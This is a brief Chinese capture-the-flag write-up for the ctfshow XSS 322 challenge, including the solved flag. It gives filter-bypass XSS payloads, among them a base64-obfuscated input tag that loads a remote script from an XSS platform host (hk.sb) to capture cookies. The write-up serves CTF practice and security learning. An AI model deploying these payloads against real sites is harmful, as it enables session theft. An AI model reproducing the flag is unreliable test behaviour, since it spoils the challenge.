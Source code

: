 # ctfshow-xss322



##### 参考链接

其他大佬链接

feng  https://ego00.blog.csdn.net/article/details/114079028

Y4	 https://blog.csdn.net/solitudi/article/details/111568030?spm=1001.2014.3001.5501

bit   https://www.xl-bit.cn/index.php/archives/120/



```
圣诞快乐，写下祝福语，生成链接，发送给朋友，可以领取十个鸡蛋！
祝福语
请输入祝福语
 
生成链接
```

```html
既然前面是反射型xss  其实不管它是反射还是存储 
主要还是需要我们利用xss平台 获取cookie


xss平台
https://ww.rs/
https://hk.sb/

应该是过滤了script,img,空格,frame

输入框输入
<Img sRC=//hk.sb/UfVb/test.jpg>

把空格用tab键替换就可以 或者/
    
<input	onfocus=eval(atob(this.id))	id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8vaGsuc2IveTd4eCI7ZG9jdW1lbnQuYm9keS5hcHBlbmRDaGlsZChhKTs=	autofocus>



ctfshow{9935e17b-a879-4adc-bd16-e31dd88af350}


```

